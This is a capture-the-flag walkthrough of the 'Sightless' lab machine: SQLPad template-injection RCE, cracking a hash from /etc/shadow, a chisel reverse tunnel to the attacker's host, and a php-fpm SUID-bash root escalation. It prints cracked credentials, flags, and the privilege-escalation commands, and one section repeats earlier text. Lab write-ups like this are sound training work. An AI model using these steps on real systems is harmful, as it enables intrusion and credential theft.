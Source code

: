 ```yaml
---
sticker: lucide//eye-off
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | FTP     |
| 22   | SSH     |
| 80   |         |

Let's start with reconnaissance.

# RECONNAISSANCE
---

![](cybersecurity/images/Pasted%2520image%252020250107170937.png)

`echo "10.10.11.32 sightless.htb" | sudo tee -a /etc/hosts 2>/dev/null`

![](cybersecurity/images/Pasted%2520image%252020250107171213.png)

Now we can access the website, we have a `home`, `about`, `services` and a `contact us` part, if we go to the service part, we can see the following:

![](cybersecurity/images/Pasted%2520image%252020250107171349.png)

We got a `sqlpad` service, if we click start now, we are redirected to `sqlpad.sightless.htb`, let's add this subdomain to `/etc/hosts` too:

![](cybersecurity/images/Pasted%2520image%252020250107171612.png)

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![](cybersecurity/images/Pasted%2520image%252020250107172243.png)

Let's check the web and see if there's anything related to this version:

![](cybersecurity/images/Pasted%2520image%252020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![](cybersecurity/images/Pasted%2520image%252020250107182931.png)


# EXPLOITATION
---

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![](cybersecurity/images/Pasted%2520image%252020250107172243.png)

Let's check the web and see if there's anything related to this version:

![](cybersecurity/images/Pasted%2520image%252020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![](cybersecurity/images/Pasted%2520image%252020250107182931.png)

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize the shell]], we would think that we already beat the machine since we got root access but no, we are inside of a docker container, we need some sort of way to get into the real machine, that's when we find 2 users, Michael and node:

![](cybersecurity/images/Pasted%2520image%252020250107183525.png)

![](cybersecurity/images/Pasted%2520image%252020250107183536.png)


Since we already have root access in the docker container, let's read `/etc/shadow` and get the hash for michael user:

![](cybersecurity/images/Pasted%2520image%252020250107183633.png)

```ad-note
Michael hash is: 

`$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/`

----
We need to crack this hash using john, let's do it:

`john hash -w=/usr/share/wordlist/rockyou.txt`

----
This will output: `insaneclownposse`


Let's log into ssh using those credentials:


`michael`:`insaneclownposse`
```



![](cybersecurity/images/Pasted%2520image%252020250107184751.png)

Now we are inside of michael's account, we can read the user flag now:

```ad-note
![](cybersecurity/images/Pasted%2520image%252020250107184841.png)
user flag: `fa24b7668682e82a648c821ccf0d9526`
```

# Privilege escalation
---

Let's proceed with privesc.

We'll be using linpeas to show use some possible PE vectors:

![](cybersecurity/images/Pasted%2520image%252020250107185646.png)

There is a weird connection made to the port `8080`, we need to investigate this, for this, we will use chisel as we need to resend the traffic back to our local machine:

```ad-hint

##### Doing a reverse proxy
---
1. `chisel server -p 9999 --reverse`
2. `chmod +x chisel`
3. `./chisel client 10.10.15.36:9999 R:8080:127.0.0.1:8080`

![](cybersecurity/images/Pasted%2520image%252020250107192250.png)
![](cybersecurity/images/Pasted%2520image%252020250107192300.png)

```

Now, let's visit the page:

![](cybersecurity/images/Pasted%2520image%252020250107192343.png)

It's executing froxlor, in order to get the credentials, we'll be using the following exploit: [exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/), this is basically a chrome remote debugger pentest, since the machine is running chrome actively, we can use this to exploit and access the credentials, once we've reproduce all the steps accordingly to the notes, we get the following credentials:

```ad-note

`admin`:`ForlorfroxAdmin`

```


Let's log into the panel:

![](cybersecurity/images/Pasted%2520image%252020250107193550.png)

We got access to the panel, as seen, we have a php section, this has the following:

![](cybersecurity/images/Pasted%2520image%252020250107193639.png)

We got `php-fpm`, we are able to execute php code, we can do the following:

```ad-note
1. Create new PHP version
2. `chmod 4777 /bin/bash`
3. Go to `/system/settings/php-fpm`, disable it and enable it again
4. Go to our terminal and perform `/bin/bash -p`
5. Get root shell
```


```ad-important
If we did all correctly, we are able to get root access:

![](cybersecurity/images/Pasted%2520image%252020250107194238.png)

This is the root flag:

![](cybersecurity/images/Pasted%2520image%252020250107194255.png)

Root: `1c4c6860beaa42a5b9b8e404fbcbf656`


```
